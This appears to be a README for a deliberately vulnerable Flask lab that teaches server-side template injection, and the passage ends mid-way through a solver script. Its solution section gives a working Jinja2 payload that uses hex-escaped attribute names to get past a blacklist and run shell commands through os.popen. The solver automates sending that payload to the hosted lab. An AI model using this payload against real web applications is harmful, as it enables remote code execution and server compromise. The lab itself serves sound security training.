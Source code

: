 
This will start a local server, and you can access the application by navigating to `http://127.0.0.1:5000` in your web browser.
## Exploring the Application

The application provides two routes for exploring SSTI:

- **Basic SSTI (`/`)**: A simple form where you can input your name to test basic SSTI exploitation.
- **Advanced SSTI (`/hard`)**: A more challenging form with a blacklist filter to prevent common SSTI payloads.

## Learning Objectives

- Understand how SSTI vulnerabilities occur in web applications.
- Learn how to construct payloads to exploit SSTI in a safe environment.
- Explore techniques to bypass input filters and security mechanisms.
- Learn to abuse various dangerous functions of python to chain RCE

## Task
- gain rce
- get the flag.txt via RCE

## Solution of hard
#### Payload to bypass filters
```m
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fim'+'port\x5f\x5f')('o'+'s')|attr('popen')('id')|attr('read')()}}
```
#### Automated Solution

<img width="1635" alt="image" src="https://github.com/user-attachments/assets/9b33eb97-8714-4552-aef4-248aed1c6573">


`Solver.py`
```py
from rich.console import Console
from rich.prompt import Prompt
from rich.text import Text
from rich.panel import Panel
import requests

console = Console()

def send_payload(payload):
    url = "https://ssti.pythonanywhere.com/hard"
    data = {"name": payload}
    response = requests.post(url, data=data)
    return response

def print_response(response_text):
    # Extract h2 content
    start_tag = "<h2>"
    end_tag = "</h2>"
    start_index = response_text.find(start_tag)
    end_index = response_text.find(end_tag)

    if start_index != -1 and end_index != -1:
        h2_content = response_text[start_index + len(start_tag):end_index]
        console.print(Panel(f"[bold magenta]{h2_content}[/bold magenta]", title="Command Output", subtitle="Response", style="cyan"))
    else:
```